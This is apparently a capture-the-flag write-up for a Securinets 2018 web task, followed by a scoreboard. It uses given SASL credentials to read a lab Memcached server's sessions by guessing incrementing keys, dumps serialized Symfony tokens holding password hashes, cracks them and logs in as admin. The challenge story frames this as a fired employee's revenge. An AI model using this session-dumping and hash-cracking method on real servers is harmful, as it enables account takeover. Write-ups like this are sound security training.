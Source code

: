 <p align="center">
<img src="logo.png"/>
</p>

# CTFSecurinets Quals 2018 Writeup
This repository serves as a writeup for CTFSecurinets Final 2018

## SASL Memcached

**Category:** Web
**Points:** 299
**Author:** TheEmperors
**Description:**

> The Emperor worked in the development of a website in which, authenticated sessions should be logged in a cache server. So he developped this feature in a Memcached server. And to prevend anyone to connect to the Memcached server, he enabled the SASL authentication in the Memcached server. After he finished the development of this feature, The Emperor was fired from this team to another one in the same enterprise. The Emperor wanted to make a revenge on his chief. The Emperor remembred that he own only the memcached credentials and he want to get the admin credentials of the website. Can you help him to successfully authenticate using the admin credentials ? "SASL login=SASL password=securinets_SAAASLLL_hahaha_ok_Xd"
> Link : http://192.168.1.101/

**Hint:**

> The Emperors said that keys stored in the Memcached server are an incremented integer

<p align="center">
<img src="resources/web-299-sasl_memcached/_description.PNG"/>
</p>

### Write-up
When visiting the link of the web application, we find out an authentication form :
<p align="center">
<img src="resources/web-299-sasl_memcached/1.PNG"/>
</p>

After reading the description, it seems that there is no way to bypass authentication without searching the credentials from the memcached server.

But when we tried to authenticate to the memcached server with netcat or telnet. We even tried dumping the memcached key with memcdump command but we failed. Because these commands doesn't require credentials. And in this task we have to authenticate to the memcached server using the given credentials.

So it smells a kind of programming web task.

We tried to authenticate to the memcached server using memcached library in PHP but we failed.

But hopefully, in Python, we found the bmemcached library (binary memcached). We installed it and we tested it and it worked like a charm:

```
pip install bmemcached
python -c "import bmemcached;client = bmemcached.Client(('192.168.1.101:11211', ), 'securinets_SAAASLLL_hahaha_ok_Xd','securinets_SAAASLLL_hahaha_ok_Xd');client.set('key', 'value');print client.get('key');"
```

Output :
```
value
```

So after authenticating to this memcached server and writing and reading some data, we can continue solving this task.

After searching how to dump the memcached data, we found that there is no command that can did this in a binary memcached server (a memcached server in which we authenticated using a SASL credentials). So, if we don't know the keys, we can't did anything.

In the hint, the developper said that the keys stored in the Memcached server are an incremented integer. So we tried to read the key number 1 :
```
python -c "import bmemcached;client = bmemcached.Client(('192.168.1.101:11211', ), 'securinets_SAAASLLL_hahaha_ok_Xd','securinets_SAAASLLL_hahaha_ok_Xd');print client.get('1');"
```

Output :
```
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":742:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:702:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:6:"simple";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
```

Nice ! This web application is based on the Symfony framework and the session stored in the memcached server contains the user information from the `UsernamePasswordToken` class object.

The username used here is ```simple``` and the password is ```2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5```. But these credentials doesn't works. Maybe this password is a hash.

We tried the easy solution by cracking this hash in crackstation.net and we found that this hash is the ```sha512(password)```. And the password value iss ```simple```.

So we tried this credentials:
```
Login=simple
Password=simple
```

We successfully authenticated but we found this message:
```
You are not an admin user !
```

We figured out that we only have tried to authenticate with a simple user and not with an administrator user. So we have to read all the memcached keys value in python:

```python
import bmemcached
client = bmemcached.Client(('192.168.1.101:11211', ), 'securinets_SAAASLLL_hahaha_ok_Xd','securinets_SAAASLLL_hahaha_ok_Xd')
for i in range(50): print client.get(str(i))
```

Output :
```
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":742:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:702:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:6:"simple";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
... (many objects of the simple user)
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":756:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:716:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:19:"admin_is_theemperor";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"fe0468680d4f90bf7446e49a3c9100b490a8db06df47588320921a36f0b92703dc7284797bb391a766cbec7c92a9cffa7d1b535c7aa4d345788d0153a93a1ee6";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
... (many objects of the simple user)
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":742:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:702:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:6:"simple";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
... (many objects of the simple user)
None
... (many None)
None
```

So the interesting line is this line which contains the administrator credentials:
```
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":756:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:716:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:19:"admin_is_theemperor";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"fe0468680d4f90bf7446e49a3c9100b490a8db06df47588320921a36f0b92703dc7284797bb391a766cbec7c92a9cffa7d1b535c7aa4d345788d0153a93a1ee6";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
```

After cracking the password administrator we found this credentials:
```
Login=admin_is_theemperor
Password=a0000
```

Now, we authenticate using this credentials and we find the flag:
```
Congratulations ! your flag is Flag{Y0_M3mc4cH3d_W1tH_S4SL_4r3_h3LL_xD}
```

So the flag is : ```Flag{Y0_M3mc4cH3d_W1tH_S4SL_4r3_h3LL_xD}```.

___










# Scoreboard

This is the scoreboard and the ranking for the 5 teams that they solved at least one task in this CTF :

Summary:

<p align="center">
<img src="scoreboard/ALL.PNG"/>
</p>

Detailed :

<p align="center">
<img src="scoreboard/1.PNG"/>
</p>
<p align="center">
<img src="scoreboard/2.PNG"/>
</p>

If you need the Json file of the scoreboard, you can find it [scoreboard/jsonAdvanced.json](here)

